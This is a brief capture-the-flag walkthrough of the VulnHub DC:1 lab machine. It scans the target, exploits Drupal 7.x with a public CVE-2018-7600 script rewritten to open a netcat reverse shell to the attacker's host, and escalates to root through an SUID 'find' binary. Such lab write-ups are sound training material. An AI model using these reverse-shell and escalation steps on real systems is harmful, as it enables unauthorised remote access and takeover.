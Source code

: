 
# DC:1 Walkthrough 

**VulnHub Link:** [DC:1](https://www.vulnhub.com/entry/dc-1,292/)
**Difficulty:** Easy
**Release Date:** 28 Feb 2019


## 1.Reconnaissance

nmap -A -O -T4 -P -sV 192.168.100.139


## 2.Web Enumeration

whatweb http://192.168.100.139

--> drupal 7.x 

https://github.com/firefart/CVE-2018-7600/tree/master 

from here we copied or downloaded python script 

changing HOST to .139


## 3.Exploitation 

python exploit.py

we changed name in script to : nc -e /bin/bash 192.168.100.14 1234 

but before this , you make sure this listens : rlwrap nc -nvlp 1234 on host


## 4.Privilege Escalation

we found out from :: find / -perm /4000 2>/dev/null
find has suid byte

https://gtfobins.github.io/gtfobins/find/

whoami --> root

BINGO!!! Root flag captured.!
